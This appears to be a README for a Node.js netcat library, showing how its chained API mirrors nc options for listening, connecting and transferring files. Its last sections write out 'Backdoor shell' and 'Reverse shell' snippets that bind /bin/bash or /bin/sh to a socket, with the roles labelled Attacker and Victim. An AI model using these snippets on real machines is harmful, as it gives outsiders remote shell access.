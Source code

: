 This module's API tends to follow as much as possible the original netcat's cli params.

For instance: `nc -l -p 2389` is equivalent to `nc.port(2389).listen()`. Easy right?

#### Server and Client connection

| Server                 | Client                             |
|------------------------|------------------------------------|
|`nc.port(2389).listen()`|`nc2.addr('127.0.0.1').port(2389).connect()`|

#### Transfer file

| Server              | Client                             |
|---------------------|------------------------------------|
|`nc.port(2389).listen().pipe(outputStream)`|`inputStream.pipe(nc2.port(2389).connect().stream())`|

or viceversa you can do the equivalent of `nc -l -p 2389 < filename.txt` and when someone else connects to your port 2389, the file is sent to them whether they wanted it or not:

| Server              | Client                             |
|---------------------|------------------------------------|
|`nc.port(2389).serve('filename.txt').listen()`|`nc2.port(2389).connect().pipe(outputStream)`|

#### Keepalive connection

| Server              | Client                             |
|---------------------|------------------------------------|
|`nc.port(2389).k().listen()`|`inputStream.pipe(nc2.port(2389).connect().stream())`|

The server will be kept alive and not being closed after the first connection. (`k()` is an alias for `keepalive()`)

#### Serve raw buffer

| Server              | Client                             |
|---------------------|------------------------------------|
|`nc.port(2389).listen().serve(Buffer.from('Hello World'))`|`nc2.port(2389).connect().on('data', console.log)`|

#### Backdoor shell

| Server              | Client                             |
|---------------------|------------------------------------|
|`nc.port(2389).listen().exec('/bin/bash')`|`process.stdin.pipe( nc2.addr('127.0.0.1').port(2389).connect().pipe(process.stdout).stream() )`|

The `exec()` method execute the given command and pipe together his `stdout` and `stderr` with the clients `socket`.

#### Reverse shell

| Attacker              | Victim                           |
|---------------------|------------------------------------|
|`nc.k().port(2389).listen().serve(process.stdin).pipe(process.stdout)`|`nc2.addr('127.0.0.1').port(2389) .retry(5000).connect().exec('/bin/sh')`|
